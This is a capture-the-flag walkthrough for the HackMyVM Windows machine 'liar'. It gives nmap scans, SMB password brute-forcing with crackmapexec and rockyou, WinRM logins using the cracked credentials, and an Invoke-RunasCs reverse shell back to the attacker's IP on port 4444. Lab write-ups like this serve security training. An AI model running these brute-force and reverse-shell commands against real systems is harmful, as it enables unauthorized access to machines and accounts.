 
![liar](https://github.com/user-attachments/assets/239fa3ab-3325-4dc4-987d-d3a5944965c7)

---

`Creator`:  [sml](https://hackmyvm.eu/profile/?user=sml)

`Page`: [HackMyVm](https://hackmyvm.eu)

---




- I start with a scan of the open ports,
  
  ```bash
  nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.103
  ```
  
  ![image](https://github.com/user-attachments/assets/2dba8e0f-c4ec-4186-86a1-ab41e69d984e)
  

- Scanning open ports.
  
  ```bash
  nmap -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV 192.168.56.103 -oN ports
  ```

  ![image 1](https://github.com/user-attachments/assets/0a3ae56b-0911-4f03-8059-bdd2076cd5cd)


- I access to the website.
    
    ![image 2](https://github.com/user-attachments/assets/3ed8b160-8ef0-4c87-b6c6-123b6813e497)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u nica -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 3](https://github.com/user-attachments/assets/f27b0754-5734-4c05-ac9a-7fb937a88eea)

    

- I log in as a `nica` with evil-winrm
    
    ```bash
    evil-winrm -i 192.168.56.103 -u nica -p hardcore
    ```
    
    ![image 4](https://github.com/user-attachments/assets/ef4a06dd-877c-4ba3-821c-f4dbfeb5ba56)

    

- I find the first flag and find another potential user.
    
    ![image 5](https://github.com/user-attachments/assets/6b52f2cf-0c2d-4cb6-89c8-eeaad90cffe7)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u akanksha -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 6](https://github.com/user-attachments/assets/a140aa05-3eef-4ad9-baf3-2a2101748994)

    

- I try to connect as `akanksha` with evil-winrm but it does not allow me to connect.
    
    ```bash
    evil-winrm -i 192.168.56.103 -u akanksha -p sweetgirl
    ```
    
    ![image 7](https://github.com/user-attachments/assets/e06d87f1-e379-4db1-83f1-942fb8e265a1)

    

- As it does not allow us to log in as `akanksha`, we can try to run commands as that user and create a revershell. For that we can use Runas.
    [RunasCs](https://github.com/antonioCoco/RunasCs)
    
    ![image 8](https://github.com/user-attachments/assets/2e1c807d-9fb0-49cc-b93a-03c192a5f7b9)

    

- We import the module and run the revershell as `akanksha` to my machine.
    
    ```bash
    Import-module ./Invoke-RunasCs.ps1
    Invoke-RunasCs akanksha sweetgirl powershell -Remote 192.168.56.1:4444
    ```
    
    ![image 9](https://github.com/user-attachments/assets/5ed766dd-5e31-43fd-8b18-dafbbc356f77)

    

- This user has permissions to view the root flag.
    
    ![image 10](https://github.com/user-attachments/assets/3c13a465-57ae-4d28-8afc-31573f3f102a)
